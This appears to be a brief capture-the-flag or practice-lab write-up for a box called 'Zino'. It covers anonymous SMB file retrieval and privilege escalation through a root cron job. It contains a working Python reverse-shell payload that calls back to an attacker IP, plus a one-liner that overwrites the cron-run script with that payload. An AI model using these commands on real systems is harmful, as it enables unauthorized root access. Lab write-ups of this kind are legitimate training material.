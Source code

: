 ### SMB since autorecon is super useful this time
```bash
smbclient //$IP/zino -U=anonymous

smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

```
$ ls -lh /usr/sbin/apache2
-rwxr-xr-x 1 root root 672K Oct 15  2019 /usr/sbin/apache2

*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

```python
import socket,subprocess,os;
import pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.49.200",80));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2); 

pty.spawn("bash");
```

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.200",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /var/www/html/booked/cleanup.py
```

It's a easy box. Just don't get stuck on getting reverse shell with specific ports like 80 or 8003. 21 is the working one.
Simply use it will just work.

Besides, use a webshell when the RCE exploit is not stable enough.

* https://imtodess.gitbook.io/writeups/pg/get-to-work/linux/zino
* https://github.com/Ministrex/Pentest-Everything/blob/Main/writeups/pg-practice/linux/zino.md

